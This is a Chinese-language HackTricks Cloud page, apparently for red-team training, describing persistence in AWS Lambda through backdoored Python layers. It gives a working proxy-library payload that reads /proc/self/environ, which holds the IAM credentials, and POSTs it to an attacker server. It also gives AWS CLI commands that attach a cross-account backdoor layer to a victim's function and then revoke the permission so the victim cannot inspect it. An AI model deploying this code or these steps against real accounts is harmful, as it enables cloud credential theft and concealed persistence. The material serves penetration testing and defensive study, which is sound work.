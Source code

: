 # AWS - Lambda Layers Persistence

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lambda Layers

Lambda 层是一个 .zip 文件归档，**可以包含额外的代码**或其他内容。一个层可以包含库、[自定义运行时](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、数据或配置文件。

每个函数最多可以包含 **五个层**。当你在一个函数中包含一个层时，**内容会被提取到执行环境中的 `/opt`** 目录。

**默认情况下**，你创建的 **层** 对你的 AWS 账户是 **私有的**。你可以选择 **与其他账户共享** 一个层或 **将** 该层 **设为公共**。如果你的函数使用了不同账户发布的层，即使该层被删除或你被撤销访问权限，你的函数仍然可以 **继续使用该层版本**。但是，你不能使用已删除的层版本创建新函数或更新函数。

作为容器镜像部署的函数不使用层。相反，当你构建镜像时，将你首选的运行时、库和其他依赖项打包到容器镜像中。

### Python load path

Python 在 lambda 中使用的加载路径如下：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
检查 **第二** 和 **第三** **位置** 是否被 **lambda layers** 解压其文件的目录占用： **`/opt/python/lib/python3.9/site-packages`** 和 **`/opt/python`**

{% hint style="danger" %}
如果攻击者成功地 **后门** 一个被使用的 lambda **layer** 或 **添加一个** 在加载常用库时会 **执行任意代码** 的 **layer**，他将能够在每次 lambda 调用时执行恶意代码。
{% endhint %}

因此，要求是：

* **检查** 受害者代码 **加载的库**
* 创建一个 **带有 lambda layers 的代理库**，该库将 **执行自定义代码** 并 **加载原始** 库。

### 预加载的库

{% hint style="warning" %}
在滥用此技术时，我发现了一个困难：一些库在你的代码执行时已经在 python 运行时中 **被加载**。我原本期待找到像 `os` 或 `sys` 这样的库，但 **甚至 `json` 库也被加载**。\
为了滥用这种持久性技术，代码需要 **加载一个在代码执行时未加载的新库**。
{% endhint %}

使用这样的 python 代码，可以获得 lambda 中 python 运行时 **预加载的库列表**：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
这是**列表**（检查像`os`或`json`这样的库是否已经存在）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
这是**lambda 默认安装的库**列表：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda 层后门

在这个例子中，假设目标代码正在导入**`csv`**。我们将**对 `csv` 库的导入进行后门处理**。

为此，我们将**创建目录 csv**，并在其中放置文件**`__init__.py`**，路径为 lambda 加载的路径：**`/opt/python/lib/python3.9/site-packages`**\
然后，当 lambda 执行并尝试加载**csv**时，我们的**`__init__.py` 文件将被加载并执行**。\
该文件必须：

* 执行我们的有效载荷
* 加载原始的 csv 库

我们可以通过以下方式同时完成这两项：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
然后，创建一个 zip 文件，包含路径 **`python/lib/python3.9/site-packages/__init__.py`** 中的代码，并将其添加为 lambda 层。

您可以在 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) 找到此代码。

集成的有效载荷将在 **首次调用或在 lambda 容器重置后**（代码更改或冷 lambda）**发送 IAM 凭证到服务器**，但 **其他技术**（如以下内容）也可以集成：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部层

请注意，可以使用 **来自外部账户的 lambda 层**。此外，即使没有权限，lambda 也可以使用来自外部账户的层。\
还要注意，**一个 lambda 最多可以有 5 个层**。

因此，为了提高此技术的灵活性，攻击者可以：

* 在用户的现有层中植入后门（没有任何外部内容）
* **在** **他的账户中创建**一个**层**，给予**受害者账户使用**该层的**访问权限**，**配置**受害者的 Lambda 中的**层**并**移除权限**。
* **Lambda** 仍然能够**使用该层**，而**受害者**将没有任何简单的方法来**下载层代码**（除了在 lambda 内部获取反向 shell）。
* 受害者**不会看到**使用 **`aws lambda list-layers`** 的外部层。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
